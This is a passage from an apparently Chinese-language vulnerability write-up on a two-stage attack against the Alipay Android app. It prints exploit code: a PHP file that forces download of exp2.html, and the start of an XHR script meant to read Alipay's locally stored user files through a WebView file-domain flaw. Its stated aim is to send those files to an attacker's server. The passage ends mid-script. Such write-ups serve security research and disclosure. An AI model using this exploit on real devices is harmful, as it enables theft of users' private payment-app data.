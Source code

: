 exp.php

````
<?php

header("Content-Disposition: attachment; filename=exp2.html");

?>

<h2>Hello Alipay!</h2>
````

攻击阶段1达到了从网页打开支付宝app，并且下载和加载exp2.html的目的

## 0x02 攻击阶段2 - Webview跨域攻击

因为文件被加载时就已经处于file域中，所以下一步就是读取支付宝保存用户信息的文件，然后回传到攻击者服务器上

通过file域访问file域的资源需要设置API setAllowFileAccessFromFileURLs为true
通过file域访问其他域，如http域的资源，需要设置API setAllowUniversalAccessFromFileURLs为true

关于这两个API的描述可以参考《WEBVIEW跨源攻击分析》这里不再多讲

现在已经可以直接构造读取支付宝本地文件并回传

攻击阶段2的exp如下

修改攻击阶段1的exp.php文件如下

exp.php

```
<?php

header("Content-Disposition: attachment; filename=exp2.html");

echo file_get_contents('exp2.html');
```

exp2.html （以读取shared_prefs/welcome.xml为例）

```
<h2>Hello Alipay!</h2>
<script>
function createXHR(){
    if(typeof XMLHttpRequest != 'undefined'){
        return new XMLHttpRequest();
    }else if(typeof ActiveXObject != 'undefined'){
        if(typeof arguments.callee.activeXString != 'string'){
            var versions = ['MSXML2.XMLHttp.6.0','MSXML2.XMLHttp.3.0','MSXML2.XMLHttp'];
            for(var i=0;i<versions.length;i++){
                try{
                    var xhr = new ActiveXObject(versions[i]);
                    arguments.callee.activeXString = versions[i];
                    return xhr;
                }catch(ex){}
            }
        }
        return new ActiveXObject(arguments.callee.activeXString);
    }else{
        throw new Error('No XHR Object available');
    }
}
// send GET Request
function sendGetRequest(url,callback){
    var xhr  = createXHR();
    xhr.open('GET',url,false);
    xhr.send();
    callback(xhr.responseText);
```